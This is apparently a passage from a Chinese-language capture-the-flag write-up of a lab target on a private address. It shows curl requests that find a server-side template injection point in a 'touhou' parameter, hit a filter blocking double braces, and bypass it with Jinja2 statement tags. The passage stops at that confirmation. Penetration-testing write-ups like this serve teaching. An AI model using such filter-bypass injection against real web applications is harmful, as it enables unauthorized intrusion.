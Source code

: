 发现三个关键路径：`/console`、`/home`、`/library`

# 四、漏洞发现与利用

## 4.1 获取破解信息

访问 `/home` 路径获得重要提示：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.171:5000/home
这种魔法叫ssti
破解这种魔法的魔法阵为touhou
<br>
在有施加ssti魔法的地方 启动魔法阵并且在魔法阵中输入魔法咒语就能直接读取书啦DAZE 
```

从提示中得知：

- 存在SSTI（Server-Side Template Injection）漏洞
- 参数名为 `touhou`
- 需要在 `/library` 处利用

## 4.2 SSTI漏洞测试

访问 `/library` 并尝试SSTI payload：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.171:5000/library
<!DOCTYPE html>
<html>
...
        <p1>这次Marisa应该偷不到书了吧</p1>
...
</body>
</html>   
```

尝试基础SSTI测试，发现存在WAF：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -g 'http://192.168.205.171:5000/library?touhou={{7*7}}'
<!DOCTYPE html>
...
        <p1>你在干神魔？</p1>
...
</html> 
```

双大括号 `{{}}` 被WAF拦截，尝试使用Jinja2模板语法绕过：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 'http://192.168.205.171:5000/library?touhou=%7B%25%20set%20x%3D7*7%20%25%7D%7B%25%20print%28x%29%20%25%7D'
49                                                                               
```
